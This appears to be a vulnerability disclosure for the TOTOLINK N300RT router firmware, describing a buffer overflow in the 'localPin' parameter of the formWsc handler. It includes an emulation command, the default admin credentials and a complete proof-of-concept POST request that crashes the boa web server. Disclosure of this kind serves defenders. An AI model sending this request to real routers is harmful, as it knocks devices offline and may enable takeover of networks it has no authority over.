



## **Description**

A buffer overflow vulnerability was discovered in the TOTOLINK firmware N300RT-Ad-V4.0.0-B20211109.1137. The vulnerability arises from the improper input validation of the `'localPin'` parameter in the 'formWsc' interface of the file boa.

## ​**Affected Product**

- ​**Brand**: TOTOLINK
- ​**Product**: N300RT
- ​**Version**: V4.0.0-B20211109.1137

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d totolink ../FIRMWARE/TOTOLINK-N300RT-Ad-V4.0.0-B20211109.1137.web
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `admin`

The result of the simulation is as follows: 


## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'FUN_0044182c' is below:

- ​**web_get_var** retrieves POST parameters.
- **sprintf()** is used without length checks, leading to a ​buffer overflow.​

## **Proof of Concept (PoC)**
### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /boafrm/formWsc HTTP/1.1  
Host: 192.168.0.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 661  
Origin: http://192.168.0.1
Connection: close  
Referer: http://192.168.0.1/wlwps.htm
Cookie: session=1335027320  
Upgrade-Insecure-Requests: 1  
  
submit-url=%2Fwlwps.htm&resetUnCfg=0&localPin=1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&targetAPMac=&targetAPSsid=&peerPin=&setPIN=&configVxd=off&resetRptUnCfg=0&peerRptPin=
```

After the request the `boa` process will crash.
